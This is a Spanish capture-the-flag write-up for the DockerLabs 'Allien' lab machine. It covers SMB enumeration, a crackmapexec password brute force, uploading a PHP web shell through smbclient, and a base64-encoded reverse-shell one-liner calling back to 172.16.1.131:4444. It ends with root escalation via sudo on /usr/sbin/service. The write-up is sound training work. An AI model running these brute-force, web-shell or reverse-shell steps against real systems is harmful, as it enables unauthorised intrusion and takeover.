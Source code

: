 # Maquina Allien - DockerLabs.es

![alt text](ImagenesMaquinaAllien/image.png)

Verificar que la maquina este desplegada correctamente

![alt text](ImagenesMaquinaAllien/image-1.png)

Realizamos un ping a la máquina para verificar la comunicación y confirmamos que la conexión es exitosa.

![alt text](ImagenesMaquinaAllien/image-2.png)

A continuación, realizamos un escaneo de la IP utilizando Nmap.

![alt text](ImagenesMaquinaAllien/image-3.png)

Observamos que los puertos 22, 80, 139 y 445 estan abiertos. Ahora realizamos un escaneo adicional para detectar, enumerar servicios y versiones.

![alt text](ImagenesMaquinaAllien/image-4.png)

Primero nos centraremos en el puerto 80 que correo un servicio de Apache, entraremos desde el navegador.

Nos encontramos con un Login en el cual no podemos hacer mucho.

![alt text](ImagenesMaquinaAllien/image-5.png)

Al aplicar técnicas de Fuzzing en el sitio web, obtendremos los siguientes resultados...

![alt text](ImagenesMaquinaAllien/image-6.png)

Si entramos a `productos.php` veremos una página, en la cual tampoco tenemos mucho que hacer, al igual que `info.php`...

![alt text](ImagenesMaquinaAllien/image-7.png)

Ahora nos enfocaremos en los puertos 445 y 139, que están ejecutando Samba. Nuestro objetivo es identificar usuarios válidos que podrían permitirnos acceder a información compartida a través de estos servicios. Para ello, realizaremos una enumeración de usuarios y más utilizando la herramienta `enum4linux`, de la siguiente manera:

`enum4linux -a 172.17.0.2`

![alt text](ImagenesMaquinaAllien/image-8.png)

Hemos identificado varios usuarios, y ahora utilizaremos el usuario `satriani7` para llevar a cabo un ataque de fuerza bruta empleando `crackmapexec`, de la siguiente manera:

`crackmapexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt`

Esto intentará iniciar sesión con cada una de las contraseñas del diccionario que le proporcionemos. Hemos verificado que la contraseña del usuario es `50cent`.

![alt text](ImagenesMaquinaAllien/image-9.png)

Ahora, si utilizamos una herramienta llamada `smbmap` para enumerar los recursos compartidos con las credenciales `satriani7` como usuario y `50cent` como contraseña, obtendremos lo siguiente...

![alt text](ImagenesMaquinaAllien/image-10.png)

Al enumerar los recursos disponibles, encontraremos una variedad de archivos. Sin embargo, el que nos interesa se encuentra en la ruta `backup24/Documents/Personal`, y se trata de un archivo llamado `credentials.txt`.

![alt text](ImagenesMaquinaAllien/image-11.png)

Para facilitar nuestro trabajo, utilizaremos `smbclient` para conectarnos y navegar entre los archivos, así como para descargar el archivo que nos interesa. La conexión se realizará de la siguiente manera:

`smbclient //172.17.0.2/backup24/ -U satriani7%50cent`

Una vez conectados, nos desplazaremos al directorio donde se encuentra el archivo que nos interesa.

![alt text](ImagenesMaquinaAllien/image-12.png)

Una vez dentro, descargaremos el archivo utilizando el comando `get`, lo que nos permitirá tenerlo disponible en nuestro ordenador.

![alt text](ImagenesMaquinaAllien/image-13.png)

Al revisar el contenido de dicho archivo, observaremos que incluye varias credenciales.

![alt text](ImagenesMaquinaAllien/image-14.png)

Hay un usuario que destaca: `administrador`. Recordemos que al realizar la enumeración de usuarios con `enum4linux`, también encontramos un usuario llamado `administrador`.

Si intentamos enumerar los recursos compartidos nuevamente con `smbmap`, esta vez utilizando `administrador` como usuario y `Adm1nP4ss2024` como contraseña (que encontramos en el archivo credentials.txt), notaremos que los recursos enumerados cambian en cuanto a los permisos. Ahora tendremos acceso a la carpeta de `home`.

![alt text](ImagenesMaquinaAllien/image-15.png)

Ahora nos conectaremos nuevamente con `smbclient` de la siguiente manera:

`smbclient //172.17.0.2/home -U administrador%Adm1nP4ss2024`

Al listar el contenido de dicha carpeta, notaremos que los archivos presentes coinciden exactamente con los que encontramos al aplicar Fuzzing en la página web.

#### Recursos Compartidos

![alt text](ImagenesMaquinaAllien/image-16.png)

#### Encontrados con Fuzzing

![alt text](ImagenesMaquinaAllien/image-17.png)

En este punto, lo que se me ocurre es intentar subir un archivo `.php` malicioso en esta carpeta de `home` utilizando `smbclient` para escalar esto a un RCE.

Primero creamos el `.php` malicioso en nuestra maquina.

![alt text](ImagenesMaquinaAllien/image-18.png)

Una vez conectados al servidor con `smbclient`, subimos el archivo utilizando el comando `put pwned.php pwned.php`, y confirmaremos que ya se ha subido correctamente.

![alt text](ImagenesMaquinaAllien/image-19.png)

Ahora, si ejecutamos el archivo `.php` que subimos desde el navegador y le pasamos el parámetro `cmd` que definimos, veremos que ya tenemos ejecución de comandos.

![alt text](ImagenesMaquinaAllien/image-20.png)

Ahora, procederemos a lanzar una shell inversa.

Primero, nos pondremos a la escucha con Netcat en el puerto 4444.

![alt text](ImagenesMaquinaAllien/image-22.png)

Convertimos nuestra shell inversa en Base64.

![alt text](ImagenesMaquinaAllien/image-21.png)

Y luego ejecutamos esto en el parametro `cmd`
`echo c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo= |base64 -d |bash`

![alt text](ImagenesMaquinaAllien/image-23.png)

Y ya estariamos dentro.

![alt text](ImagenesMaquinaAllien/image-24.png)

## Tratamiento de la TTY

**Para trabajar de manera mas cómoda haremos lo siguiente:**
Una vez estemos dentro ejecutamos el siguiente comando: `script /dev/null -c bash`

Luego presionamos: `Ctrl + Z` para suspender el proceso

A continuación, escribimos: `stty raw -echo; fg`

Despues ingresamos: `reset`

Cuando se nos pregunte: "Terminal type?" Ingresamos `xterm`.

Finalmente, exportamos las siguientes variables de entorno: `export TERM=xterm` `export SHELL=bash`

Y listo!

## Escalada de Privilegios

Si ejecutamos un `sudo -l` veremos que podemos ejecutar el binario `/usr/sbin/service` como cualquier usuario sin proporcionar contraseña.

![alt text](ImagenesMaquinaAllien/image-25.png)

Nos aprovecharemos de estos permisos de la siguiente manera para poder escalar privilegios:

`sudo /usr/sbin/service ../../bin/bash`

![alt text](ImagenesMaquinaAllien/image-26.png)

Y ya obtendriamos una shell como root.
